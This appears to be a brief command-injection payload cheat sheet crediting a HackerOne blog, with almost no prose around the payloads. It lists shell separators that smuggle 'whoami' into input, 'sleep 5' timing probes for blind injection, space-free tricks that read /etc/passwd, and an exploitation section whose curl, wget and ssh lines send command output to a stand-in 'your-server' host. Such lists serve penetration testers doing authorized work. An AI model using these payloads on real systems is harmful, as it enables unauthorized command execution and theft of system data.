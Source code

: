 # Normal Tests
`` `whoami` ``

;whoami

&& whoami

| whoami

%0a whoami

|| whoami

<(echo 1 > /tmp/test)

# For Testing blind Command Injection 
;sleep 5

&& sleep 5

| sleep 5

`` `sleep 5` ``

$(sleep 5)

# Command Injection without Spaces

cat</etc/passwd

ls${IFS}-la

{ls,-la}


# Exploitation

whoami | curl http://your-server -d @-

wget http://your-server/?cmd=$(whoami)

export C=whoami | ssh user@your-server

# Source 
[Thanks to hackerone!](https://www.hackerone.com/blog/how-to-command-injections)
